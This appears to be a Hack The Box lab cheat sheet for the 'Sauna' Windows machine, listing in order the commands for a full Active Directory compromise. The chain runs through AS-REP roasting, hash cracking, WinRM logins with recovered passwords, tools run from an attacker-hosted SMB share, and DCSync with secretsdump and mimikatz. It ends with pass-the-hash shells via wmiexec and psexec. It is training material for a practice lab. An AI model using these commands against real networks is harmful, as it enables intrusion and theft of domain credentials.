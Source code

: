 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🧰 Tools Used

- `nmap`
- `ldapsearch`
- `dig`
- `kerbrute`
- `GetNPUsers.py` (from Impacket)
- `hashcat`
- `evil-winrm`
- `smbserver.py` (Impacket)
- `winPEAS.exe`
- `BloodHound`, `SharpHound.exe`, `neo4j`
- `secretsdump.py` (Impacket)
- `mimikatz`
- `wmiexec.py`, `psexec.py` (Impacket)

---

## 📜 All Commands in Order

### 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.10.175
nmap -p 53,80,88,135,139,389,445,464,593,3268,3269,5985 -sC -sV -oA scans/tcpscripts 10.10.10.175
```

### 🌐 [Web Enumeration](HTTP)

```bash
gobuster dir -u http://10.10.10.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root -t 40
```

### 🖧 [SMB](SMB.md) Enumeration

```bash
smbmap -H 10.10.10.175
smbclient -N -L //10.10.10.175
```

### 📚 [LDAP](LDAP.md) Enumeration

```bash
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

### 🌐 DNS Zone Transfer Attempt

```bash
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 🔍 Kerberos User Brute-Force (User Enum)

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

### 🔓 Crack AS-REP Hash

```bash
hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

### 🧠 Evil-WinRM Shell as fsmith

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### 📤 SMB Share to Upload winPEAS

```bash
smbserver.py -username df -password df share . -smb2support
```

From WinRM:
```powershell
net use \\10.10.14.30\share /u:df df
cd \\10.10.14.30\share
.\winPEAS.exe cmd fast > sauna_winpeas_fast
```

### 🔐 Find AutoLogon Creds (WinRM)

```powershell
cd HKLM:\software\microsoft\windows nt\currentversion\winlogon
get-item -path .
```

or

```powershell
reg query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
```

### 🧠 Evil-WinRM Shell as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

### 🧠 BloodHound Collection

From WinRM:
```powershell
cd \\10.10.14.30\share
.\SharpHound.exe
```

### 🔓 DCSync with secretsdump

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### 🛠️ DCSync with mimikatz (WinRM)

```powershell
upload /opt/mimikatz/x64/mimikatz.exe
.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

### 🖥️ Shell as Administrator with wmiexec

```bash
wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🖥️ Shell as SYSTEM with psexec

```bash
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🔑 Admin Shell via Evil-WinRM

```bash
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```
